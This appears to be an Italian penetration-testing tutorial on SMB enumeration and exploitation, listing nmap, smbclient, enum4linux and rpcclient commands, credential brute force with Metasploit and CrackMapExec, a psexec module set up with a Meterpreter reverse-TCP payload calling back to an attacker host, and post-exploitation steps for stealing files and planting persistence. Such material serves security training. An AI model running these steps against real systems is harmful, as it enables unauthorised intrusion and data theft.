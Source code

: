 # SMB Enumeration & Exploitation

**SMB (Server Message Block)** è un protocollo di rete utilizzato principalmente in ambienti Windows per la condivisione di file, stampanti e risorse. <br>
Opera sulle porte `445/TCP` (moderno) e `139/TCP` (legacy via NetBIOS). SMB è spesso abilitato di default sulle reti aziendali, rendendolo un obiettivo critico per i penetration tester.

---

## Fase 1 – Scansione e Identificazione del Servizio

La prima fase prevede la scoperta del servizio SMB attivo sul target e la sua versione. Queste informazioni sono fondamentali per identificare vulnerabilità note.

Esegui una scansione delle porte comuni:
`nmap -p 139,445 <target>`

Per identificare la versione del servizio:
`nmap -sV -p 445 <target>`

Script NSE utili:
- `nmap --script smb-os-discovery <target>` → sistema operativo, dominio, NetBIOS
- `nmap --script smb-enum-shares <target>` → condivisioni disponibili
- `nmap --script smb-enum-users <target>` → utenti configurati sul dominio

Verifica la versione con:
- `use auxiliary/scanner/smb/smb_version` (Metasploit)

Alcuni server SMB espongono versioni del servizio con vulnerabilità note. <br>
Versioni note:
- **SMBv1** → vulnerabile a EternalBlue (MS17-010)
- **Windows XP/2003/7 non patchati** → buffer overflow
- **vsrvsvc** → vulnerabilità nei servizi RPC

---

## Fase 2 – Enumerazione Manuale del Servizio

### smbclient

Client interattivo simile a FTP:
- `smbclient -L //<target>/ -N` → elenca le condivisioni accessibili senza credenziali
- `smbclient //<target>/<share> -N` → accede a una condivisione

Comandi utili all'interno della share:
- `ls`, `get`, `put`, `cd`, `mkdir`, `rmdir`

### enum4linux

Strumento versatile basato su `smbclient`, `rpcclient` e `nmblookup`:
- `enum4linux -a <target>` → enumerazione completa (utenti, gruppi, share, policy)

### rpcclient

Consente di connettersi ai servizi RPC tramite SMB:
- `rpcclient -U "" <IP>` → login null
- Comandi utili: `enumdomusers`, `enumdomgroups`, `queryuser <RID>`

---

## Fase 3 – Verifica Null Session

Una null session è una connessione SMB non autenticata che consente di leggere informazioni sensibili.

Per verificare:
- `rpcclient -U "" <target>`
- `smbclient -L //<target>/ -N`

Se la connessione ha successo, è possibile estrarre:
- Nomi utenti
- Share
- Informazioni sul dominio

---

## Fase 4 – Brute Force delle Credenziali

### Con Metasploit

`use auxiliary/scanner/smb/smb_login`<br>
`set RHOSTS <IP>`<br>
`set USER_FILE <lista_username.txt>`<br>
`set PASS_FILE <lista_passwords.txt>`<br>
`run`<br>

### Con CrackMapExec

- `crackmapexec smb <target> -u <user> -p <password>` → verifica credenziali
- `crackmapexec smb <target> --shares` → elenca le condivisioni
- `crackmapexec smb <target> --users` → enumera utenti

---

## Fase 5 – Exploitation

### Metasploit – Modulo PsExec

Se si dispone di credenziali valide:

`use exploit/windows/smb/psexec`<br>
`set RHOSTS <IP>`<br>
`set SMBUser <username>`<br>
`set SMBPass <password>`<br>
`set PAYLOAD windows/meterpreter/reverse_tcp`<br>
`set LHOST <KaliIP>`<br>
`set LPORT <Port>`<br>
`run`<br>

Questo modulo consente di ottenere una shell Meterpreter remota. Comandi utili:
- `getuid`
- `shell`
- `search -f <file>`

### Impacket – psexec.py

Alternativa Python per autenticarsi ed eseguire comandi da remoto:

`psexec.py <username>@<IP> cmd.exe`

Percorso: `/usr/share/doc/python3-impacket/examples/psexec.py`

Dopo aver fornito la password corretta, si ottiene un accesso CMD remoto con i privilegi dell’utente autenticato.

---

## Fase 6 – Post Exploitation

Dopo aver ottenuto accesso al sistema:
- Scarica file interessanti (`.txt`, `.conf`, `.xml`, `.ini`, `.bak`)
- Carica payload o script di persistence
- Verifica se le share sono usate da processi attivi o servizi web

Strumenti utili:
- `wget smb://<IP>`
- `curl smb://<IP>`
- `lftp <IP>`
